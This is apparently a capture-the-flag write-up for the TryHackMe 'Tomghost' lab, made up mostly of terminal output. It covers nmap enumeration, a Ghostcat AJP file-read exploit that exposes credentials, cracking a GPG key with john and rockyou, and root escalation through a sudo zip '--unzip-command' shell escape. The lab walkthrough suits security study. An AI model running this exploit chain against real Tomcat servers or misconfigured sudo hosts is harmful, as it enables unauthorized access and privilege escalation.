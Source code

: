 		
		
		

**Enumeration**

**NMAP**

`
ashik@whitedevil:~$ nmap -sC -sV 10.10.133.135  
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-16 10:40 IST  
Nmap scan report for 10.10.133.135  
Host is up (0.36s latency).  
Not shown: 996 closed ports  
PORT     STATE SERVICE    VERSION  
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)  
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)  
|\_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)  
53/tcp   open  tcpwrapped  
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)  
| ajp-methods:    
|\_  Supported methods: GET HEAD POST OPTIONS  
8080/tcp open  http       Apache Tomcat 9.0.30  
|\_http-favicon: Apache Tomcat  
|\_http-title: Apache Tomcat/9.0.30  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 85.62 seconds
`

https://github.com/00theway/Ghostcat-CNVD-2020-10487

**AJPSHOOTER**

`
ashik@whitedevil:~/Downloads/Tools/Ghostcat-CNVD-2020-10487-master$ python3 ajpShooter.py http://10.10.133.135:8080 8009 /WEB-INF/web.xml rea  
d  
  
   
  *
\[<\] 200 200  
\[<\] Accept-Ranges: bytes  
\[<\] ETag: W/"1261-1583902632000"  
\[<\] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT  
\[<\] Content-Type: application/xml  
\[<\] Content-Length: 1261  
  
<?xml version="1.0" encoding="UTF-8"?>  
<!--  
Licensed to the Apache Software Foundation (ASF) under one or more  
 contributor license agreements.  See the NOTICE file distributed with  
 this work for additional information regarding copyright ownership.  
 The ASF licenses this file to You under the Apache License, Version 2.0  
 (the "License"); you may not use this file except in compliance with  
 the License.  You may obtain a copy of the License at  
  
     http://www.apache.org/licenses/LICENSE-2.0  
  
 Unless required by applicable law or agreed to in writing, software  
 distributed under the License is distributed on an "AS IS" BASIS,  
 WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.  
 See the License for the specific language governing permissions and  
 limitations under the License.  
\-->  
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"  
 xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  
 xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee  
                     http://xmlns.jcp.org/xml/ns/javaee/web-app\_4\_0.xsd"  
 version="4.0"  
 metadata-complete="true">  
  
 <display-name>Welcome to Tomcat</display-name>  
 <description>  
    Welcome to GhostCat  
       skyfuck:8730281lkjlkjdqlksalks  
 </description>  
  
</web-app>
`

**CRACKING the gpg keys **

`
root@ip-10-10-30-103:~\# cat hash   
hackme:$gpg$\*17\*54\*3072\*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be\*3\*254\*2\*  
9\*16\*0c99d5dae8216f2155ba2abfcc71f818\*65536\*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc  
  

root@ip-10-10-30-103:~\# locate rockyou.txt  
/usr/share/wordlists/rockyou.txt  


root@ip-10-10-30-103:~\# john --wordlist=/usr/share/wordlists/rockyou.txt hash   
Warning: detected hash type "gpg", but the string is also recognized as "gpg-opencl"  
Use the "--format=gpg-opencl" option to force loading these as that type instead  
Using default input encoding: UTF-8  
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key \[32/64\])  
Cost 1 (s2k-count) is 65536 for all loaded hashes  
Cost 2 (hash algorithm \[1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224\]) is 2 for all loaded hashes  
Cost 3 (cipher algorithm \[1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256  
\]) is 9 for all loaded hashes  
Will run 2 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
alexandru (hackme)  
1g 0:00:00:00 DONE (2021-06-16 07:09) 4.761g/s 5104p/s 5104c/s 5104C/s chinita..alexandru  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed.    
root@ip-10-10-30-103:~#

`

**Decrypting the file**

`
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp   
  
You need a passphrase to unlock the secret key for  
user: "tryhackme <stuxnet@tryhackme.com>"  
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)  
  
gpg: gpg-agent is not available in this session  
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences  
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11  
     "tryhackme <stuxnet@tryhackme.com>"  
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123jskyfuck@ubuntu:~$
`



**Privilegae escalation**

`
merlin@ubuntu:~$ touch a.txt  
merlin@ubuntu:~$ sudo zip a.txt -T --unzip-command="sh -c /bin/bash"  
       zip warning: missing end signature--probably not a zip file (did you  
       zip warning: remember to use binary mode when you transferred it?)  
       zip warning: (if you are trying to read a damaged archive try -F)  
  
zip error: Zip file structure invalid (a.txt)  
merlin@ubuntu:~$ ls  
a.txt  user.txt  
merlin@ubuntu:~$ cat user.txt   
THM{GhostCat\_1s\_so\_cr4sy}  
merlin@ubuntu:~$ sudo aip z.zip z.txt -T --unzip-command="sh -c /bin/bash"  
\[sudo\] password for merlin:    
sudo: aip: command not found  
merlin@ubuntu:~$ sudo zip z.zip z.txt -T --unzip-command="sh -c /bin/bash"   
       zip warning: name not matched: z.txt  
  
zip error: Nothing to do! (z.zip)  
merlin@ubuntu:~$ sudo zip a.zip a.txt -T --unzip-command="sh -c /bin/bash"   
 adding: a.txt (stored 0%)  
root@ubuntu:~\# id  
uid=0(root) gid=0(root) groups=0(root)  
root@ubuntu:~\# ls  
a.txt  user.txt  zi1DMu0r  
root@ubuntu:~\# cd root  
bash: cd: root: No such file or directory  
root@ubuntu:~\# cd /root/  
root@ubuntu:/root\# ls  
root.txt  ufw  
root@ubuntu:/root\# cat root.txt   
THM{Z1P\_1S\_FAKE}  
root@ubuntu:/root#
`


WRITE-UPs

https://muirlandoracle.co.uk/2020/04/11/tomghost-write-up/

https://www.cybergoat.co.uk/writeup/Tomghost-TryHackMe/

https://medium.com/@sushantkamble/apache-ghostcat-cve-2020-1938-explanation-and-walkthrough-23a9a1ae4a23